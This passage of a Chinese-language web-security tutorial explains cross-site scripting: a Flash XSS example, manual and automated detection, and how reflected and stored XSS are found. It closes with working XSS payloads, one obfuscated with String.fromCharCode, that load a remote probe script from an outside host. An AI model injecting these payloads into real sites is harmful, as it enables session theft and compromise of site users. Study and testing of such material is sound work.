 * flash XSS

利用网页上flash文件的缺陷来执行js脚本，一般是反射型XSS。  
flash文件可以实现一些功能，如google的mail域下的sound.swf是用来播放声音的，uploaderapi2.swf是上传文件, audio.swf是播放音频文件。  
如：```https://mail.google.com/mail/html/audio.swf?videoUrl=aa.mp4```，audio.swf文件就是从videoUrl接收参数然后进行播放。
```
#现有flash文件aa.swf，源码如下：
var func:String=root.loaderInfo.parameters.func; //接受FLASH所带的func参数
var val:String=root.loaderInfo.parameters.val; //接受FLASH所带的vul参数
ExternalInterface.call(func,vul);

#当访问http://localhost/aa.swf?func=alert&vul="document.domain"时就会弹窗域名
```

### 0x04 XSS的检测
检测XSS一般分两种方法：一种是手工检测、一种是软件自动检测  
手工检测：检测结果准确，但对于大型web来说费时费力  
软件检测：方便省力，但存在误报，且有些隐蔽的XSS无法检测出  
<f>检测XSS最重要的就是考虑哪里有输入，输入的数据在哪里输出</f>

* 手工检测
```
可得知输出位置:
    • 输入敏感字符，如<、>、"、'、()等，然后在提交后查看html源代码，看这些字符是否被转义。
    • 在输出这些字符时，程序可能已经进行了过滤，可以输入“AAAAAA<>"&'()”字符串，然后查找AAAAAA或许比较方便。
无法得知输出位置:
    很多web应用程序源码不公开，在测试时不能得知输出位置，比如，有些留言版在留言后必须经过管理员审核才能显示，无法得知数据在后台管理页面处于何种状态，如：
    在标签中：<div>XSS Test</div>
    在属性内：<input type="text" name="content" value="XSS Test" />
    这种情况通常采用输入"/>XSS Test来测试。
```

* 全自动检测XSS
如APPSCAN、AWVS、Burp Suite等软件都可以有效的检测XSS，他们还会检测其他的漏洞，但是他们的效率不如专业的XSS检测工具高。  
专业的XSS扫描工具有知名的XSSER、XSSF等，还有专门扫描DOM类型XSS的web服务(```www.domxssscanner.com```)。  
一般要手工和软件一起使用，因为有些XSS软件不能检测，比如有些留言需要输入验证码等，工具无法做到。

### 0x05 XSS的挖掘与利用
* XSS漏洞挖掘
```
反射型XSS：
    一般是url参数中的值能够回显到HTML中，且url的参数值没有过滤或过滤不严
存储型XSS：
    可以提交内容
    提交的内容可被管理员或其他用户看到
    提交的内容没有被过滤或过滤不严
```

* XSS漏洞利用
XSS一般就是闭合标签，和SQL注入类似，常见payload如下：
```
• <script src='http://b.ioio.pub/xss/probe.js'></script>
• <img src=x onerror="s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js'";>
• <svg onload=s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js>
• <svg onload=eval(String.fromCharCode(115,61,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,
    114,105,112,116,39,41,59,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59,
    115,46,115,114,99,61,39,104,116,116,112,58,47,47,98,46,105,111,105,111,46,112,117,98,47,120,115,115,47,
    112,114,111,98,101,46,106,115)) >
```
